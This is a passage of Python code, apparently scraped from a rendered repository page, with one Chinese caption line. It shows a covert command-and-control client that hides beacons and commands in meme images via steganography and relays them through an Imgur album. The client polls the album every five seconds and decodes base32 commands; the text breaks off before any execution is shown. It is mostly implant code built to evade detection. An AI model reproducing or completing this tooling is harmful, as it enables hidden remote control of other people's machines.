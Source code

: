 ```
        else:
            print base64.b32decode(client_dict['response'])

        random.choice(client.default_memes()).link
        last_message_datetime = send_command_message(client_dict['uuid'],
        client_dict['os'],
        random.choice(client.default_memes()).link)
```

以下是我们客户的脚本：

```
from imgurpython import ImgurClient
import StegoText
import ast, os, time, shlex, subprocess, base64, random, sys

def get_input(string):
    try:
        return raw_input(string)
    except:
        return input(string)

def authenticate():
    client_id = '<REPLACE WITH YOUR IMGUR CLIENT ID>'
    client_secret = '<REPLACE WITH YOUR IMGUR CLIENT SECRET>'

    client = ImgurClient(client_id, client_secret)
    authorization_url = client.get_auth_url('pin')

    print("Go to the following URL: {0}".format(authorization_url))
    pin = get_input("Enter pin code: ")

    credentials = client.authorize(pin, 'pin')
    client.set_user_auth(credentials['access_token'], credentials['refresh_token'])

    return client

client_uuid = "test_client_1"

client = authenticate()
a = client.get_account_albums("<YOUR IMGUR USERNAME>")

imgs = client.get_album_images(a[0].id)
last_message_datetime = imgs[-1].datetime

steg_path = StegoText.hide_message(random.choice(client.default_memes()). link,  "{'os':'" + os.name + "', 'uuid':'" + client_uuid + "','status':'ready'}",  "Imgur1.png",True)
uploaded = client.upload_from_path(steg_path)
client.album_add_images(a[0].id, uploaded['id'])
last_message_datetime = uploaded['datetime']

while True:

    time.sleep(5) 
    imgs = client.get_album_images(a[0].id)
    if imgs[-1].datetime > last_message_datetime:
        last_message_datetime = imgs[-1].datetime
        client_dict =  ast.literal_eval(StegoText.extract_message(imgs[-1].link, True))
        if client_dict['uuid'] == client_uuid:
            command = base64.b32decode(client_dict['command'])

            if command == "quit":
                sys.exit(0)

```